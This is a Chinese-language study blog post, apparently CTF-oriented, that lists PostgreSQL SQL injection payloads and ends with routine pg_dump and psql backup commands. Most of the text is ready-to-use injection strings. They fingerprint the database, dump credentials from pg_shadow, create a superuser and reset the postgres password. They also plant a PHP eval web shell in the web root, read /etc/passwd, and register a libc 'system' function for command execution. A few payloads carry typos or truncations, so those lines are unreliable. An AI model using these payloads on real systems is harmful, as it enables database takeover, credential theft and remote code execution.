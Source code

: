 ```yaml
---
layout:     post
title:      Web笔记（五）SQL注入之PostgreSQL
subtitle:   这个系列是整理学习安全的笔记，包括Web和PWN的一些知识。本章是PostgreSQL的SQL注入。
date:       2020-11-29
author:     K4ys0n
header-img: img/post-bg-rwd.jpg
catalog:    true
tags:
    - CTF
    - web
    - 网络安全
    - 学习笔记
    - SQL注入
    - PostgreSQL
---
```




## 0x00 PostgreSQL介绍
postgresql是以加州大学伯克利分校计算机系开发的POSTGRES，现在已经更名为PostgreSQL，版本4.2为基础的对象关系型数据库管理系统（ORDBMS）。

PostgreSQL支持大部分SQL标准并且提供了许多其他现代特性：复杂查询、外键、触发器、视图、事务完整性、MVCC。同样，PostgreSQL可以用许多方法扩展，比如，通过增加新的数据类型、函数、操作符、聚集函数、索引。

免费使用、修改、和分发PostgreSQL，不管是私用、商用、还是学术研究使用。



## 0x01 常用场景

php+PostgreSQL



## 0x02 常用注入攻击

#### 1. 判断是否为PostgreSQL数据库
```
id=1+and+1::int=1-- 
```

#### 2. 判断数据库版本信息
```
id=1+and+1=cast(version() as int)-- 
```

#### 3. 判断当前用户
```
id=1 and 1=cast(user||123 as int)-- 
```

#### 4. 判断有多少字段
```
id=1 order by N -- 
id=-1 union select null,null,null -- 
id=-1 union select null,user,null -- 		判断当前用户，user是函数，不用加括号
```

#### 5. 判断数据库版本信息
```
id=-1 union select null,version(),null-- 
```

#### 6. 判断用户权限
```
id=-1+union+select+null,current_schema(),null--
```

#### 7. 判断当前数据库名称
```
id=-1+union+select+null,current_database(),null
```

#### 8. 判断当前表名
```
id=-11+union+select+null,rel
```

#### 9. 列字段内容
```
id=-1+union+select+null,name||pass,nul+from+admin
```

#### 10. 查看PostgreSQL数据库的账号密码

```
id=-1+union+select+null,username||chr(124)||passwd,null+from+pg_shadow
```

#### 10. 创建用户

- 创建用户

```
id=1;create+user+seven+with+superuser+password+'seven'-- 													
```

- 修改PostgreSQL的用户密码为123456

```
id=1;alter+user+postgres+with+password+'123456'-- 
```

#### 11. 写shell

- 直接拿shell

```
id=1;create table shell(shell text not null); -- 
id=1;insert into shell values($$<?php @eval($_POST[cmd]);?>$$); -- 
id=1;copy shell(shell) to '/var/www/html/shell.php' -- 
```

- 或者直接一个命令写shell

```
id=1;copy (select '$$<?php @eval($_POST[cmd]);?>$$') to 'c:/xxx/wwwroot/test.php' -- 
```

#### 12. 读取文件前20行
```
id=1;pg_read_file('/etc/passwd',1,20) -- 
```

#### 13. 创建system函数
用于版本大于8的数据库。

```
# 创建一个system的函数
id=1;create FUNCTION system(ctring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE 'C' STRICT -- 

# 创建一个输出表
id=1;create table stdout(id serial, system_out text) -- 

# 执行shell，输出到输出表内
id=1;select system('uname -a >/tmp/test') -- 

# copy输出的内容到表里面
id=1;COPY stdout(system_out) FROM '/tmp/test' -- 

# 从输出表内读取执行后的回显，判断是否执行成功
id=-1 union all select NULL,(select stdout from system_out order by id desc),NULL,limit 1 offset 1 -- 
```



## 0x03 数据库备份还原

#### 1. 备份数据库

```
# 本地备份
pg_dump -O -h 192.168.0.5 -U postgres -d mdb >c:/mdb.sql

# 从远程备份数据库到本地
pg_dump -O -h 192.168.0.5 -U dbowner -w -p 5432 SS >SS.sql
```

- \-h 指定数据库主机名
- \-U 指定用户名
- \-O 指定在明文格式中，忽略恢复对象所有者，即no-owner
- \-w 指定不提示输入口令，即no-password
- \-p 指定端口号
- \-d 指定备份的数据库名也可以不指定，直接写在倒数第二项

#### 2. 还原数据库

```
psql -h localhost -U postgres -d mdb
```



## 0x04 其他注意点

postgresql的用户如果是postgre，其权限相当于系统root权限。